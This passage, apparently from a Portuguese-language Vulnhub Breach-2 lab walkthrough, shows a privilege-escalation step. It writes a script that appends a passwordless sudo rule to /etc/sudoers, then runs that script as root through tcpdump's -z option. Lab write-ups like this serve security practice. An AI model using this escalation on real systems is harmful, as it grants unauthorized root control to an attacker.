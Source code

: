 ![](/assets/img/Vulnhub/Breach-2/blumbergh-gtfobins.png)


* De acordo com o site vamos criar um script que sera executado pelo tcpdump...

```bash
echo 'echo "blumbergh ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/charlie-root && chmod +x /tmp/charlie-root
```

![](/assets/img/Vulnhub/Breach-2/blumbergh-charlie-root.png)



* Agora vamos executar o script com o tcpdump e pronto, podemos fazer qualquer coisa como sudo

```bash
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/charlie-root -Z root
```
